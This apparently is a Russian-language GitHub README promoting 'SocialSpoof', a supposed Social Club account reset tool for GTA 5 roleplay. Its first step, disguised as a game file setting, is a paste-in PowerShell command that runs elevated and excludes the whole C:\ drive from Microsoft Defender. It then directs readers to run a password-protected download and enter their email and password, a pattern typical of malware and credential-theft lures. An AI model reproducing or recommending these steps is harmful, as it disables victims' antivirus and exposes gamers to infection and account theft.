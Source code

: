 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение системных файлов Rage Mp</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите SocialSpoof

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
